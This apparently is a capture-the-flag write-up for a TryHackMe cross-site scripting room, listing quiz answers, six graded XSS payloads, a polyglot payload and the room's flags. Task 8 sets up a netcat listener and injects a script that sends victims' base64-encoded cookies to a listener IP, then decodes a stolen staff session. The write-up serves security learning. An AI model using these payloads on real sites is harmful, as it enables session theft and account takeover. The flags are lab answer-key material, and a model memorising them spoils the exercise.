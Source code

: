 # Cross-site Scripting

<br>

## Task 2

### Task 2.1

> document.cookie

### Task 2.2

> alert

<br>

## Task 3

### Task 3.1

> Parameters 

<br>

## Task 4

### Task 4.1

> database

<br>

## Task 5

### Task 5.1

> eval()

<br>

## Task 6

### Task 6.1

> xsshunter

### Task 6.2

> stored XSS

<br>

## Task 7

https://10-10-167-206.p.thmlabs.com/

Input Lvl 1: 
```html
<script>alert('THM');</script>
```

<br>

Input Lvl 2: 
```html
"><script>alert('THM');</script>
```

<br>

Input Lvl 3: 
```html
</textarea><script>alert('THM');</script>
```

<br>

Input Lvl 4: 
```javascript
';alert('THM');//
```

<br>

Input Lvl 5: 
```html
<sscriptcript>alert('THM');</sscriptcript>
```

<br>

Input Lvl 6: 
```html
/images/cat.jpg" onload="alert('THM');
```

<br>

### Task 7.1

> THM{XSS_MASTER}

Polyglots:
```text
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

<br>

## Task 8

https://10-10-40-33.p.thmlabs.com/customers/tickets

Input:
```html
</textarea>test
```

```html
</textarea><script>alert('THM');</script>
```

<br>

```shell
nc -nlvp 9876
```

Input:
```html
</textarea><script>fetch('http://10.10.46.155:9876/?cookie=' + btoa(document.cookie) );</script>
```

```shell
echo c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ== | base64 -d
```

### Task 8.1

> 4AB305E55955197693F01D6F8FD2D321